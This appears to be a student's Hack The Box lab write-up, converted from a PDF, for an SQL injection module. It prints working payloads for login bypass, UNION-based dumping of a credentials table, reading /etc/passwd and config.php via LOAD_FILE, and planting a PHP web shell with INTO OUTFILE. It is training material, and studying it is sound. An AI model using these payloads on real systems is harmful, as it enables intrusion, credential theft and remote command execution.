> Writeup · part of **[htb-walkthroughs](../README.md)** · [⬇ original PDF](SQLInjection.pdf)

---

# **SQL INJECTION FUNDAMENTALS** 

INTRODUCTION 

Many web applications are served by a database on the back-end whose main function is to store and retrieve relevant data. When the client makes a request, the application's server issues queries to the database to fetch the requested information. 

Sometimes, user-supplied information is used to construct the database query, which creates a leeway for malicious users to manipulate the queries. This makes the database return information that was not originally intended by the programmer. 

This report shows my approach and methodology I employed to solve each task in this module. 

SQL injection refers to attacks against relational databases such as <mark>MySQL</mark> (whereas injections against non-relational databases, such as MongoDB, are NoSQL injection). 



Using the mysql command line tool, I authenticated as root with the password as password. From the commands in the image below, -u flag = user -h flag = host/target -P flag = port and -p flag = password input. 

1/24 



Once I authenticated successfully, I used the SHOW DATABASES  list all the db available in the target. 

I selected the "employees" db using the “use” cmd. I listed the tables under this db using “SHOW TABLES;” cmd. From the image below, I used the SELECT cmd to select all columns from the departments table, and under the dept_no column, I was able to retrieve the department no. for Development department. 

2/24 



To achieve this, I was supposed to apply filter cmd on my query cmd. So I used the limit filter to list a specified no of rows I wanted, this was to retrieve the column information with which I used in my next query cmd to filter further my desired result as shown in the image below. 

3/24 



To solve this I was required to use the OR operator to filter the results. So I used * to select all the columns from the title table as shown below. 



4/24 



I was supposed to bypass the login page by injecting the sql payload. So I intercepted the request using burpsuite and send the request to the repeater to play along with various characters and see how the application would respond. From the image below, the sqli payload workedout validating that the login page is vulnerable to sqli. I was able to authenticate as user tom and retrieved the flag from his portal. 

5/24 







In this case, I was supposed to modify my payload to match for user id 5 and inject sqli payload on the input field as shown below. After several attempts and modifications, I managed to bypass the login page and retrieved the flag as user anyone. And this means, without the knowledge of the user neither the password, one is able to bypass the login page. 

6/24 





I connected to the target and listed the dbs available as shown in the image below. 

7/24 





Using the UNION keyword in my sql query as shown in the image above, I was able to retrieve all the data from both the employees and departments table. 

However, the two tables did not have same number of columns, and therefore at first this query did not workout. Using the “describe <table_name>;” I was able to know the number of columns in each table and with knowledge I was able to modify the query to help me achieve my desired goal as shown below. 

8/24 





I first determined the number of columns by using the ' UNION SELECT NULL-- - payload, and as it appeared there were 4 columns on this table. 

The ‘user()’ function in SQL  is used to return the name of the current database user. Having this function in my payload, I was able to retrieve the current user as shown in the image below. 





9/24 



First I found out which database the web application is running to retrieve ports data from. This can be found using the <mark>SELECT database()</mark> query and as shown below, the current db is ilfreight. 



I now needed to get a list of the tables to query them with a <mark>SELECT</mark> statement. o find all tables within a database, we can use the <mark>TABLES</mark> table in the <mark>INFORMATION_SCHEMA</mark> Database. 

I modified my payload “ <mark>' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -</mark> 

” To dump the data of the <mark>credentials</mark> table, we first need to find the column names in the table, which can be found in the <mark>COLUMNS</mark> table in the <mark>INFORMATION_SCHEMA</mark> database. 

and shown in the image below, I was able know the tables available in the db. 



Now that I have all the information, I can form our <mark>UNION</mark> query to dump data of the <mark>username</mark> and <mark>password</mark> columns from the <mark>credentials</mark> table in the <mark>dev</mark> database just as shown in the image below. I was able to retrieve the flag of the newuser. 





I first determined the current user in the db as shown in the image below. 

10/24 



In the below images, I managed to determine the root user and the priveleges he had on the target system. 

11/24 



12/24 



Using the LOAD_FILE() function to read local file systems and as seen below I was able to read the /etc/passwd file. 

13/24 



I needed to find out where the <mark>$conn</mark> variable is defined. Typically, this would be in an included PHP file. The included file often contains the database connection details, including the password. viewing the source code of this webpage, I found the include “config.php” which was the file that most probably had the db credentials. 



Loading the file using the LOAD_FILE() function, I was able to read this config.php file just as seen below. 

14/24 



To be able to write files to the back-end server using a MySQL database, we require three things: 

1. User with <mark>FILE</mark> privilege enabled 

2. MySQL global <mark>secure_file_priv</mark> variable not enabled 

3. Write access to the location we want to write to on the back-end server 

I modified the payload as shown from the search engine in the image below and the results confirmed the conditions mentioned above were met. 

15/24 



> Now we can try write files to the backend server. I did that using the <mark>PE SELECT .. INTO OUTFILE</mark> statement. ~~|~~ <mark>' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -</mark> Using the payload above, I was able to write to the backend server and as it can be seen below, visiting the path url with the proof.txt file as shown below, I was able to read the content of this file. 

16/24 



With this knowledge in hand, I modified the payload to in a way that will allow us to execute system cmd on the server. 

> This is the payload I used; “ ~~<u>e</u>~~ <mark>' union select NULL,'<?php system($_REQUEST[0]); ?>',NULL,NULL into</mark> ~~e eC~~ <mark>outfile '/var/www/html/shell.php'-- -”</mark> 

From the image below, I intercepted the request using burpsuite. (this is after visiting the path url having the shell.php file.) 



17/24 

Using the linux cmd on the server, I was able to read the content of flag.txt file as shown below. 





For this final question in this module, I was required to employ everything I have learnt throughout this module. 



The target had a webpage with which upon visiting, I was presented with a login page. I tried to bypass it by injecting payload at the username field. After several attemts the two payloads shown in the image below, gave me access to the webpage. 

18/24 

19/24 



On the search field on the page, I injected an apostrophe to confirm if it was vulnerable to sqli, and yes it was according to the error about the sql syntax I received. This can be seen in the image below. 



First I determined the number of columns and as seen in the image below, there were 5 columns. 

20/24 



Having this knowledge of number of columns, I used the user() function to determine the current user on the target as seen below. 



21/24 



Checking for super_priv, it returns Y to mean yes, user root had super privileges on the target machine. 



Using the payload below, I was able to determine if the I was able to write file on the server, and from the response in the image below, I was able. 

' UNION SELECT 1, variable_name, variable_value, 4, 5 FROM information_schema.global_variables where variable_name="secure_file_priv"-- - 



After successfully writing a php file that will allow me execute system command on the server, I was able to print the current working directory as shown below. 

22/24 

'+union+select+NULL,'<?php+system($_REQUEST[0])+;+?>',NULL,NULL,NULL+into+outfile+'/var/www/html/ dashboard/shell.php'-- - 



Using ls cmd I was able to list files in the / directory. One of the files had the file we were looking for as seen in the image below. 



I read the content of the file using the cat cmd as shown below. 



This was one of my favorite modules in hackthebox. Reason being, I was able to employ all the skills I learnt from this room with that from portswigger to solve the final task. 

23/24 



<u>https://academy.hackthebox.com/achievement/1287818/33</u> 

## Conclusion 

SQL Injection remains a significant threat to database security, capable of causing extensive damage to organizational data and systems. By identifying vulnerabilities, understanding potential impacts, and implementing robust mitigation strategies, organizations can significantly reduce the risk of SQL Injection attacks. Ensuring ongoing vigilance through regular security assessments and adherence to best practices in secure coding and database management is crucial for maintaining a secure environment. 

24/24
